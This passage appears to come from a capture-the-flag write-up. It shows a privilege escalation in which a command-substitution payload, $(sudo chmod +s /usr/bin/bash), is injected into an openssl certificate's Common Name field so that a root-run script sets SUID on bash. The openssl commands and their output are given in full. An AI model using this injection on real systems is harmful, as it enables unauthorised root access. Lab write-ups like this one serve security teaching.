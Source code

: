 So, we can command inject into this line of the recurring script:

```bash
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
```

Rather than having to create another reverse shell, I just set uid on `/usr/bin/bash` and ran it as root:

```bash
$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out broscience.crt -days 1
Generating a RSA private key
................................................................................................................................................................................................................................................................................++++
.......................................................................................................................................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(sudo chmod +s /usr/bin/bash)
Email Address []:

```

Let's create our cert on the machine now with the above command injection, and see if we get a new SUID copy of bash:

```bash
bash-5.1$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out /home/bill/Certs/broscience.crt -days 1
Generating a RSA private key
......................................................................................++++
....................................................................................................................................++++
writing new private key to '/home/bill/Certs/broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(sudo chmod +s /usr/bin/bash)
Email Address []:
```
